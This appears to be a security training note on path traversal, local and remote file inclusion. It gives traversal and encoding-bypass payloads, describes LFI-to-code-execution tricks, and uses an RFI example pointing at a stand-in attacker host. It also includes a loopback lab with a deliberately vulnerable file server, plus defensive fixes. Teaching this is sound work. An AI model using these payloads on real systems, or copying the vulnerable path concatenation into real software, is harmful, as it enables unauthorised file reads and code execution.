

# 📂 File Inclusion & Path Traversal

> [!warning] Authorized simulation only
> These attacks read or execute files outside the intended directory. Prove the boundary crossing with a benign canary or a harmless system file, never sensitive data. Test only in-scope applications you build or are authorized to assess.

## Parent Learning Order
File Inclusion & Path Traversal -> File Upload Security Testing -> Insecure Deserialization Testing -> XML External Entity Testing

## Start at Zero: When a Filename Is Attacker-Controlled

Web applications constantly turn user input into file paths — `?page=about` loads `about.html`, `?lang=en` includes `lang/en.php`. When that input is not properly constrained, three closely-related flaws appear, all from the same root cause: **an attacker-controlled value reaches a file operation**.

| Flaw | What the attacker controls | Result |
| --- | --- | --- |
| **Path Traversal** | A path with `../` to escape the intended directory | Read files outside the web root |
| **Local File Inclusion (LFI)** | A path to a *local* file the app then *includes/executes* | Read, or execute, local files |
| **Remote File Inclusion (RFI)** | A *URL* the app fetches and includes | Execute attacker-hosted code |

They form a severity ladder: traversal *reads* a file, LFI can *execute* a local file (turning file read into code execution via clever tricks), and RFI directly executes *remote* attacker code. All three are one mechanism — untrusted input in a file path — which is why they belong in one note, not three.

> [!tip] The analogy, and where it breaks
> Path traversal is like a hotel keycard that opens your room (`/guest/room-204`) but, because the lock only checks the suffix, also opens the manager's office if you write `../../manager` on it. The analogy breaks at inclusion: a keycard only *opens* a door, whereas LFI/RFI make the building *act on* whatever is behind the door — reading it aloud, or worse, *executing its instructions* — which is how a file-read becomes code execution.

**Prerequisites:** the Linux/Windows filesystem hierarchy, HTTP parameters, and URL encoding.

## Path Traversal: Escaping the Directory

The `../` sequence means "parent directory." An app that builds `files/ + user_input` and reads the result can be escaped:

```text
intended:  files/report.pdf
attack:    files/../../../../etc/passwd   ->  /etc/passwd
```

Each `../` climbs one level; enough of them reach the filesystem root, then descend to any file the web process can read. The proof is reading a *harmless* system file (`/etc/hostname`) — enough to demonstrate the boundary is crossed, without touching sensitive data.

The variant neighborhood matters enormously (from the retest leaf): a naive filter blocking `../` is bypassed by URL-encoding (`..%2f`), double-encoding (`..%252f`), or overlong sequences (`....//`). A "fixed" traversal must be retested against all of these.

## LFI: From Reading to Executing

LFI is traversal into a context where the file is *included* (executed), most classically in PHP's `include($_GET['page'])`. Reading `/etc/passwd` proves the flaw, but the escalation to code execution is what makes LFI severe:

- **Log poisoning** — inject PHP into a log file (via a crafted User-Agent), then LFI-include the log, executing the injected code.
- **Wrappers** — `php://filter` reads source code (leaking secrets), `data://` and `php://input` can execute supplied code.
- **Session files** — include a session file whose contents you control.

The lesson: LFI is not just "read a file," it is "read a file *and the app runs it*," which is why the LFI-to-RCE chain is a top web severity.

## RFI: Executing Remote Code Directly

RFI is the most severe: the app fetches a *URL* the attacker supplies and executes it. `?page=http://evil.example/shell.txt` makes the server download and run the attacker's code — immediate remote code execution. It requires a permissive configuration (PHP's `allow_url_include`, now off by default), which is why RFI is rarer today, but where present it is instant compromise.



## Failure Modes and Interpretation

- **Proving with sensitive data.** Reading `/etc/passwd` is traditional but `/etc/hostname` proves the same boundary crossing without exposing user hashes. Use the most benign file that demonstrates the flaw.
- **Filter bypass variants.** A block on `../` is defeated by encoding — always test `..%2f`, `..%252f`, `....//`, and absolute paths. Concluding "fixed" from the literal payload failing is the classic retest error.
- **Null-byte and extension tricks** (legacy) — older platforms truncated at `%00` or appended extensions; know the platform to know which apply.
- **Read vs. execute context.** Whether a traversal is "just" file-read or escalates to RCE depends on whether the file is included/executed — classify correctly, as the severity differs enormously.
- **Windows vs. Unix paths.** `../` vs `..\`, drive letters, and UNC paths differ — match the payload to the server OS.

## Security Implications — Detection & Defense

- **Never build file paths from user input.** The definitive fix is to *not* pass untrusted input to file operations — use an allowlist mapping (`page=about` → a fixed dictionary of allowed files), not concatenation.
- **Canonicalize then validate.** If a path must be built, resolve it to its absolute canonical form *first*, then verify it stays within the intended base directory — decoding before checking (the retest-leaf lesson) closes the encoding-bypass class.
- **Disable dangerous inclusion features:** `allow_url_include` off (kills RFI), restrict wrappers, and run the web process with least filesystem privilege so even a successful read reaches little.
- **Detection** looks for `../`, encoded traversal, and `php://`/`http://` in file parameters — a WAF signature, though canonicalization at the app is the real fix.
- **Least privilege limits blast radius:** a web process that cannot read `/etc/shadow` or write to log directories contains both the read and the LFI-to-RCE escalation.

## Authorized Lab: Traverse a Boundary You Build

> [!info] Runs on one Linux machine — builds a vulnerable file-serving app locally with a canary "secret"
> Loopback-bound; the traversal reads only a canary you place. Step 5 removes everything.

### Step 1 — Build an app that concatenates input into a path

```bash
mkdir -p /tmp/filab/public
echo "public brochure" > /tmp/filab/public/brochure.txt
echo "TRAVERSAL-CANARY-7781" > /tmp/filab/secret.txt          # OUTSIDE public/, the target
cat > /tmp/filab/app.py << 'EOF'
import http.server, urllib.parse, os
BASE = "/tmp/filab/public"
class H(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        name = urllib.parse.parse_qs(urllib.parse.urlparse(self.path).query).get("name",["brochure.txt"])[0]
        path = BASE + "/" + name          # VULNERABLE: no canonicalization
        try:
            data = open(path).read()
            self.send_response(200); self.end_headers(); self.wfile.write(data.encode())
        except Exception:
            self.send_response(404); self.end_headers(); self.wfile.write(b"not found")
    def log_message(self,*a): pass
http.server.HTTPServer(("127.0.0.1",8102),H).serve_forever()
EOF
python3 /tmp/filab/app.py &>/dev/null &
sleep 1; echo "file app up on 127.0.0.1:8102 (serves from public/)"
```

```text
file app up on 127.0.0.1:8102 (serves from public/)
```

### Step 2 — Normal request (baseline)

```bash
curl -s "http://127.0.0.1:8102/?name=brochure.txt"
```

```text
public brochure
```

The app serves the intended file from `public/`.

### Step 3 — Traverse out of the directory (the finding)

```bash
curl -s "http://127.0.0.1:8102/?name=../secret.txt"
```

```text
TRAVERSAL-CANARY-7781
```

`../secret.txt` escaped `public/` and read the canary that lives *outside* the served directory — path traversal, proven. On a real app this same technique reads `/etc/passwd` or config files; here it reads only a benign canary you placed.

### Step 4 — Show the encoding-bypass variant

```bash
# even if the app blocked literal "../", the encoded form is a separate test
echo "encoded -> $(curl -s "http://127.0.0.1:8102/?name=..%2fsecret.txt")"
```

```text
encoded -> TRAVERSAL-CANARY-7781
```

The URL-encoded `..%2f` also works — the variant a naive `../` filter would miss, and the reason canonicalize-then-validate (decoding first) is the real fix.

### Step 5 — Cleanup

```bash
kill %1 2>/dev/null; rm -rf /tmp/filab; wait 2>/dev/null; ls -d /tmp/filab 2>&1
```

```text
ls: cannot access '/tmp/filab': No such file or directory
```

**What you should now be able to do:** explain how path traversal, LFI, and RFI share one root cause, prove a directory-escape with a benign canary, test the encoding-bypass neighborhood, and distinguish file-read from the LFI/RFI escalation to code execution.

## Crook → Operator → Root Checkpoint

- **Crook:** Explain how attacker-controlled input in a file path causes traversal/LFI/RFI, and the severity ladder between reading and executing.
- **Operator:** Prove path traversal with a benign canary, test encoding-bypass variants, and classify whether a flaw is read-only or escalates to RCE via inclusion.
- **Root:** Explain why allowlist mapping (not concatenation) and canonicalize-then-validate are the definitive fixes, why decoding order matters, and how least privilege contains the LFI-to-RCE escalation.

---
> 🔼 Up: [[File, Parser & Serialization Security]]
